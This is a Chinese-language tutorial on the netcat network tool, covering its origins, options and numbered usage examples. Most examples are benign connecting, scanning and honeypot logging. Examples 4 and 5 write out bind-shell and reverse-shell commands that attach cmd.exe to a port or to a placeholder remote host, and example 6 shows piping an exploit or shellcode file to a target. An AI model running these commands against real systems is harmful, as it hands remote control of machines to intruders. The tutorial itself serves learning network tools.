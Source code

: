 ## netcat {#netcat}

GUN NatCat ：

[http://netcat.sourceforge.net/download.php](http://netcat.sourceforge.net/download.php)

NC for NT：

www.vulnwatch.org/netcat/

netcat被誉为网络安全界的&amp;apos;瑞士军刀&amp;apos;，相信没有什么人不认识它吧......

 一个简单而有用的工具，透过使用TCP或UDP协议的网络连接去读写数据。它被设计成一个稳定的后门工具，

能够直接由其它程序和脚本轻松驱动。同时，它也是一个功能强大的网络调试和探测工具，能够建立你需要的几

乎所有类型的网络连接，还有几个很有意思的内置功能(详情请看下面的使用方法)。

 在中国，它的WINDOWS版有两个版本，一个是原创者Chris Wysopal写的原版本，另一个是由&amp;apos;红与黑&amp;apos;编译

后的新&amp;apos;浓缩&amp;apos;版。&amp;apos;浓缩&amp;apos;版的主程序只有10多KB（10多KB的NC是不能完成下面所说的第4、第5种使用方法，

有此功能的原版NC好象要60KB：P），虽然&quot;体积&quot;小，但很完成很多工作。

=====================================================================================================

软件介绍：

工具名：Netcat

作者：Hobbit &amp;&amp; Chris Wysopal

网址： [http://www.atstake.com/research/tools/network_utilities/](http://www.atstake.com/research/tools/network_utilities/)

类别：开放源码

平台：Linux/BSD/Unix/Windows　

WINDOWS下版本号：[v1.10 NT]

=====================================================================================================

参数介绍：

&amp;apos;nc.exe -h&amp;apos;即可看到各参数的使用方法。

基本格式：nc [-options] hostname port[s] [ports] ...

　　 nc -l -p port [options] [hostname] [port]

-d 后台模式

-e prog 程序重定向，一旦连接，就执行 [危险!!]

-g gateway source-routing hop point[s], up to 8

-G num source-routing pointer: 4, 8, 12, ...

-h 帮助信息

-i secs 延时的间隔

-l 监听模式，用于入站连接

-L 连接关闭后,仍然继续监听

-n 指定数字的IP地址，不能用hostname

-o file 记录16进制的传输

-p port 本地端口号

-r 随机本地及远程端口

-s addr 本地源地址

-t 使用TELNET交互方式

-u UDP模式

-v 详细输出--用两个-v可得到更详细的内容

-w secs timeout的时间

-z 将输入输出关掉--用于扫描时

端口的表示方法可写为M-N的范围格式。

=====================================================================================================

基本用法：

大概有以下几种用法：

1)连接到REMOTE主机，例子：

格式：nc -nvv 192.168.x.x 80

讲解：连到192.168.x.x的TCP80端口

2)监听LOCAL主机，例子：

格式：nc -l -p 80

讲解：监听本机的TCP80端口

3)扫描远程主机，例子：

格式：nc -nvv -w2 -z 192.168.x.x 80-445

讲解：扫描192.168.x.x的TCP80到TCP445的所有端口

4)REMOTE主机绑定SHELL，例子：

格式：nc -l -p 5354 -t -e c:\WINDOWS\system32\cmd.exe

讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

5)REMOTE主机绑定SHELL并反向连接，例子：

格式：nc -t -e c:\WINDOWS\system32\cmd.exe 192.168.x.x 5354

讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

以上为最基本的几种用法（其实NC的用法还有很多，

当配合管道命令&quot;|&quot;与重定向命令&quot;&lt;&quot;、&quot;&gt;&quot;等等命令功能更强大......）。

=====================================================================================================

高级用法：

6)作攻击程序用，例子：

格式1：type.exe c:\exploit.txt|nc -nvv 192.168.x.x 80

格式2：nc -nvv 192.168.x.x 80 &lt; c:\exploit.txt

讲解：连接到192.168.x.x的80端口，并在其管道中发送&amp;apos;c:\exploit.txt&amp;apos;的内容(两种格式确有相同的效果，

　 真是有异曲同工之妙:P)

附：&amp;apos;c:\exploit.txt&amp;apos;为shellcode等

7)作蜜罐用[1]，例子：

格式：nc -L -p 80

讲解：使用&amp;apos;-L&amp;apos;(注意L是大写)可以不停地监听某一个端口，直到ctrl+c为止

8)作蜜罐用[2]，例子：

格式：nc -L -p 80 &gt; c:\log.txt

讲解：使用&amp;apos;-L&amp;apos;可以不停地监听某一个端口，直到ctrl+c为止，同时把结果输出到&amp;apos;c:\log.txt&amp;apos;中，如果把&amp;apos;&gt;&amp;apos;

　 改为&amp;apos;&gt;&gt;&amp;apos;即可以追加日志

附：&amp;apos;c:\log.txt&amp;apos;为日志等

9)作蜜罐用[3]，例子：

格式1：nc -L -p 80 &lt; c:\honeypot.txt

格式2：type.exe c:\honeypot.txt|nc -L -p 80

讲解：使用&amp;apos;-L&amp;apos;可以不停地监听某一个端口，直到ctrl+c为止，并把&amp;apos;c:\honeypot.txt&amp;apos;的内容&amp;apos;送&amp;apos;入其管道中！